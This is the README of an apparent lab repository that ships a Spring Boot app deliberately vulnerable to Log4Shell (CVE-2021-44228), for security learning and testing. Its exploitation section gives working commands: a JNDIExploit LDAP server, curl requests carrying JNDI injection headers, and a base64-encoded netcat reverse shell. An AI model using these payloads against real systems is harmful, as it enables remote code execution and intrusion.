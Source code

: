 # Log4Shell sample vulnerable application (CVE-2021-44228)

This repository contains a Spring Boot web application vulnerable to CVE-2021-44228, nicknamed [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/).

It uses Log4j 2.14.1 (through `spring-boot-starter-log4j2` 2.6.1) and the JDK 1.8.0_181.

![](./screenshot.png)

## Running the application

Run it:

```bash
docker run --name vulnerable-app -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```

## Exploitation steps

*Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**.*

**Update (Dec 13th)**: *The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine.*

* Use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server

```bash
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

* Then, trigger the exploit using:

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```

* Running a reverse shell on Alpine-Linux:

```bash
# will execute 'add netcat-openbsd && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc 172.17.0.1 1234 >/tmp/f'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://192.168.29.129:1389/Basic/Command/Base64/YWRkIG5ldGNhdC1vcGVuYnNkICYmIHJtIC90bXAvZjtta2ZpZm8gL3RtcC9mO2NhdCAvdG1wL2Z8L2Jpbi9hc2ggLWkgMj4mMXxuYyAxNzIuMTcuMC4xIDEyMzQgPi90bXAvZg==}'

```

* Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8888...
[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo
[+] Paylaod: command
[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload
[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class
[+] New HTTP Request From /192.168.1.143:50119  /Exploitjkk87OnvOH.class
[+] Receive ClassRequest: Exploitjkk87OnvOH.class
[+] Response Code: 200
```

* To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```
$ docker exec vulnerable-app ls /tmp
...
pwned
...
```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://mbechler.github.io/2021/12/10/PSA_Log4Shell_JNDI_Injection/

## Contributors

[@christophetd](https://twitter.com/christophetd)
[@rayhan0x01](https://twitter.com/rayhan0x01)
